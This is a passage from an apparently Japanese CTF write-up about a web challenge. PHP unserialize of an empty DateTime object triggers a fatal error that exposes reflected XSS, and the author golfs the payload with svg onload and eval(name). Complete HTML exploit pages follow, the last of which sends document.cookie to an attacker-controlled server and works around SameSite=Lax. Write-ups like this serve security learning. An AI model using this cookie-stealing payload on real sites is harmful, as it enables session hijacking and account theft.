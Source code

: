 ```
$ php go.php
︙
DateTime

Fatal error: Uncaught Error: Invalid serialization data for DateTime object in /tmp/go.php:4
Stack trace:
#0 [internal function]: DateTime->__wakeup()
#1 /tmp/go.php(4): unserialize('O:8:"DateTime":...')
#2 {main}
  thrown in /tmp/go.php on line 4
```

`Datetime` をデシリアライズしたときに致命的なエラーが発生しました。

本当に致命的なエラーが発生すればバッファが出力されるか、`/?login=O:8:"DateTime":0:{}&new=<s>test</s>` にアクセスして試してみましょう。

![XSS だ～](../images/2020-07-28_xss1.png)

`<s>test</s>` がそのまま HTML として出力されています。XSS できました!

あとは 32 文字以内の XSS ゴルフをするだけです。`<svg onload=(JS コード)>` と `eval(name)` (ウィンドウ名を `eval` する) を組み合わせてみましょう。

```html
<body>
<script>
let dom = '(問題サーバ)';
window.name = 'alert(123)';
location.href = `http://${dom}/?login=O:8:%22DateTime%22:0:{}&new=%3Csvg/onload=eval(name)%3E`;
</script>
</body>
```

この HTML を開くと問題サーバのコンテキストでアラートが表示されました。

あとはやるだけです。問題サーバのコンテキストで実行させるコードを `alert(123)` から `document.cookie` を自分の管理下にあるサーバに送信させるものに変えます。また、`SameSite=Lax` でも Cookie にアクセスできるよう `location.href='(URL)'` を `a` 要素を生成してクリックさせるように変えておきます。

```html
<body>
<script>
let a = document.createElement('a');
let dom = '(問題サーバ)';
window.name = '(new Image).src="http://(省略)?"+document.cookie';
a.href = `http://${dom}/?login=O:8:%22DateTime%22:0:{}&new=%3Csvg/onload=eval(name)%3E`;
a.textContent = 'hoge';
document.body.appendChild(a);
a.click();
</script>
</body>
```

